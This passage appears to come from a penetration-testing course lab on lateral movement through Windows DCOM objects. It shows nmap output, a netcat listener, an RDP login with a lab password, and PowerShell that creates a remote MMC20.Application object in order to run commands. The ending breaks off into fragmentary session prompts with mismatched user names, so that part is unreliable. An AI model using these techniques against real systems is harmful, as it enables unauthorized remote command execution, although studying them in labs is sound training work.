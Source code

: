 ```shell
49672/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: SRV02, NetBIOS user: <unknown>, NetBIOS MAC: 00:0d:3a:e4:57:44 (Microsoft)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.52 seconds

```

## Lateral Movement From Windows

Lateral movement from a Windows system can be achieved by performing several techniques with `DCOM` objects, here we will be implementing `MMC20`, `ShellWindows`, and `ShellBrowserWindows`.

### MMC20.Application

The `MMC20.Application` object allows remote interaction with Microsoft Management Console (MMC), enabling us to execute commands and manage administrative tasks on a Windows system through its graphical user interface components.

To use this technique, first let's start listening with `Netcat` on our attack host:

```shell
nc -lnvp 8001
Listening on 0.0.0.0 8001

```

Let's connect via RDP to `SRV01` using Helen's credentials.

```shell
xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux

```

Now, we must create an instance of the `MMC20.Application` object. This is done using PowerShell to interact with COM objects. Here's the command we use:

```powershell
PS C:\Tools\> $mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.20.0.52"));

```

We create an instance of the `MMC20.Application` COM object on our target server `SRV02` using PowerShell. We declare a variable `$mmc` to store this instance and use the .NET Activator class's `CreateInstance` method to initialize it. The `GetTypeFromProgID` method retrieves the type information for the MMC20.Application based on its `ProgID`, "MMC20.Application", from the remote server at `172.20.0.52`.

Next, we can utilize the `ExecuteShellCommand` function within the `Document.ActiveView` property. [Microsoft documentation](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand) defines the method as follows:


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>